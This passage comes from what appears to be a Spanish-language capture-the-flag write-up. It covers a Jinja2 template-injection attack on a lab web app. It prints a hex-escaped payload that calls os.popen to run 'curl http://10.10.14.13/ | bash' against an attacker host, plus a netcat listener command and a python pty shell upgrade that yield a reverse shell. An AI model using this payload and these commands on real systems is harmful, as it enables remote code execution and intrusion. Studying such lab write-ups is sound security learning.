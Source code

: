 Y ahora vamos a decirle a la web que nos ejecute el comando de la siguiente manera, no sin antes montarnos un server en python desde donde está el archivo .html y ponernos en escucha con `nc -nlvp 443`:

![image](../zimages/Pasted_image_20241103193001.png)

Que la solicitud en texto plano sería así:

```html
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('curl http://10.10.14.13/ | bash')|attr('read')()}}
```

Si ahora nos fijamos en la terminal que teníamos en escucha con NetCat, recibimos una reverse shell como "www-data":

![image](../zimages/Pasted_image_20241103193234.png)

Vemos que si hacemos el tratamiento de la TTY con "script /dev/null -c bash" se peta la shell, así que vamos a hacerlo con el siguiente comando de python:

```python
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

Ahora ya seguimos los pasos de siempre y lo tenemos:

![image](../zimages/Pasted_image_20241103193455.png)

Si hacemos ls en el directorio actual, tenemos un script de python "app.py", vamos a hacerle un cat y concatenamos mediante un pipe el comando "less":

![image](../zimages/Pasted_image_20241103193636.png)

